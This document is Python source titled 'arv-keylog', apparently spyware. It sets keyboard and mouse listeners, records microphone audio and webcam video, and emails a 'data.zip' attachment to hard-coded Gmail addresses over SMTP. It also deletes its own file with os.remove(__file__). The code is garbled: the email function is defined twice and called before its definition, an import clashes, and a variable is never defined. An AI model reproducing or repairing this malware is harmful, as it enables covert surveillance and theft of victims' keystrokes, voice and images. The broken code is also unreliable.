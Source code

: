# arv-keylog
send_email("data.zip")
import os
import smtplib
from email import encoders
from email.mime.base import MIMEBase
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
def send_email(arv):
    fromaddr = "cid.arvinda@gmail.com"
    toaddr = "cid.arvinda108@gmail.com"
    msg = MIMEMultipart()
    msg['From'] = fromaddr
    msg['To'] = toaddr
    msg['Subject'] = "Data Collection Report"
    body = "Please find attached the data collected."
    msg.attach(MIMEText(body, 'plain'))
    attachment = open(arv, "rb")
    part = MIMEBase('application', 'octet-stream')
    part.set_payload((attachment).read())
    encoders.encode_base64(part)
    part.add_header('Content-Disposition', "attachment; filename= %s" % arv)
    msg.attach(part)
    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(fromaddr, "your_password")
    text = msg.as_string()
    server.sendmail(fromaddr, toaddr, text)
    server.quit()

def send_email(key):
    fromaddr = "your_email@gmail.com"
    toaddr = "destination_email@gmail.com"

    msg = MIMEMultipart()
    msg['From'] = fromaddr
    msg['To'] = toaddr
    msg['Subject'] = "Data Collection Report"
    body = "Please find attached the data collected."
    msg.attach(MIMEText(body, 'plain'))
    attachment = open(filename, "rb")
    part = MIMEBase('application', 'octet-stream')
    part.set_payload((attachment).read())
    encoders.encode_base64(part)
    part.add_header('Content-Disposition', "attachment; filename= %s" % filename)
    msg.attach(part)
    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(fromaddr, "your_password")
    text = msg.as_string()
    server.sendmail(fromaddr, toaddr, text)
    server.quit()
send_email("data.zip")
os.remove(__file__)
from pynput.keyboard import Listener
def on_press(key):
    print(f'Key {key} pressed')
def on_release(key):
    if key == key.esc:
        return False
with Listener(on_press=on_press,on_release=on_release)as listener:
    listener.join()
    import sounddevice as sd
    import soundfile as sd
    duration = 100
    fs = 44100
    filename = 'audio.wav'
    print('Recording...')
    my_recording = sd.rec(int(duration * fs), samplerate=fs, channels=2)
    sd.wait()
    print('Recording done!')
    sf.write(filename, my_recording, fs)
import cv2
cap = cv2.VideoCapture(0)
while True:
    ret, frame = cap.read()
    cv2.imshow('frame', frame)
    if cv2.waitKey(1) & 0xFF == ord('q'):
     break
cap.release()
cv2.destroyAllWindows()
from pynput.mouse import Listener
def on_move(x, y):
    print(f'Mouse moved to ({x}, {y})')
def on_click(x, y, button, pressed):
    print(f'{"Pressed" if pressed else "Released"} at ({x}, {y})')
def on_scroll(x, y, dx, dy):
    print(f'Scrolled at ({x}, {y}) with delta ({dx}, {dy})')
with Listener(on_move=on_move, on_click=on_click, on_scroll=on_scroll) as listener:
    listener.join()
